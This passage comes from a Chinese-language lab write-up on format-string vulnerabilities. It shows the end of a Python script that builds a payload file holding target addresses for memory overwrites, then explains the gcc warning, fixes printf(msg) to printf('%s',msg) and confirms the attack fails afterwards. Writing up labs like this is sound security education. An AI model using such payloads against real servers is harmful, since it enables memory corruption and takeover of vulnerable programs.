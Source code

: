 ```python

content[0:0 + len(fmt)] = fmt

# format string后面加上需要被改变的2字节值的地址

content[48:56] = (s3_addr).to_bytes(8, byteorder='little')
content[56:64] = (s1_addr).to_bytes(8, byteorder='little')
content[64:72] = (s2_addr).to_bytes(8, byteorder='little')

############################################################


# Save the format string to file

with open('badfile', 'wb') as f:
    f.write(content)
```

运行截图：

![image-20220430163644239](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012319123.png)



## Task 6: Fixing the Problem

> Remember the warning message generated by the gcc compiler? Please explain what it means. Please fix the vulnerability in the server program, and recompile it. Does the compiler warning go away? Do your attacks still work? You only need to try one of your attacks to see whether it still works or not.

gcc warning：将一个非常量作为format string，且没有格式化参数

![image-20220430170207744](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012319045.png)

修复漏洞：将`printf(msg);`改成`printf("%s",msg);`，这样`printf`的第一个参数format string固定下来，只会以`%s`的形式解析msg。重新编译后没有报错：

![image-20220430170555801](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012319574.png)

尝试攻击修改target的值，修改失败。

![image-20220430171333825](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012319553.png)

